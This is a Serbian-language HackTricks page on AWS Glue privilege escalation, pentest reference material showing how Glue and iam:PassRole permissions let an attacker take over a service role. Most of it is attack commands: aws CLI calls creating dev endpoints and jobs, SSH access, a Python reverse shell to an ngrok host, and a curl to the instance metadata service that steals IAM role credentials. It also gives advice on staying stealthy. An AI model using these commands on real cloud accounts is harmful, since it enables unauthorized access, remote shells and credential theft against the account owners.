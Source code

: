 # AWS - Glue Privesc

{% hint style="success" %}
Učite i vežbajte hakovanje AWS-a: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Učite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Korisnici sa ovim dozvolama mogu **postaviti novi AWS Glue razvojni endpoint**, **dodeljujući postojeću ulogu usluge koju može preuzeti Glue** sa specifičnim dozvolama za ovaj endpoint.

Nakon postavljanja, **napadač može SSH-ovati na instancu endpointa**, i ukrasti IAM akreditive dodeljene ulozi:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Radi stealth svrhe, preporučuje se korišćenje IAM akreditacija iznutra virtuelne mašine Glue.

**Potencijalni uticaj:** Privesc na ulogu usluge lepka navedenu.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Korisnici sa ovlašćenjem mogu **izmeniti postojeći Glue razvojni** krajnji tačku SSH ključa, **omogućavajući pristup putem SSH-a**. Ovo omogućava napadaču da izvršava komande sa privilegijama uloge povezane sa krajnjom tačkom:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potencijalni Uticaj:** Privesc na ulogu usluge lepka koja se koristi.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Korisnici sa **`iam:PassRole`** u kombinaciji sa bilo **`glue:CreateJob` ili `glue:UpdateJob`**, i bilo **`glue:StartJobRun` ili `glue:CreateTrigger`** mogu **kreirati ili ažurirati AWS Glue posao**, pridružujući bilo koju **Glue servisnu ulogu**, i pokrenuti izvršenje posla. Mogućnosti posla uključuju pokretanje proizvoljnog Python koda, koji može biti iskorišćen za uspostavljanje reverznog šela. Ovaj reverzni šel može zatim biti iskorišćen za eksfiltraciju **IAM kredencijala** uloge pridružene Glue poslu, što može dovesti do potencijalnog neovlašćenog pristupa ili akcija na osnovu dozvola te uloge:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potencijalni uticaj:** Privesc do uloge usluge lepka navedene.

### `glue:UpdateJob`

Samo sa dozvolom za ažuriranje napadnuti bi mogao ukrasti IAM akreditive već povezane uloge.

**Potencijalni uticaj:** Privesc do uloge usluge lepka povezane.

## Reference

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

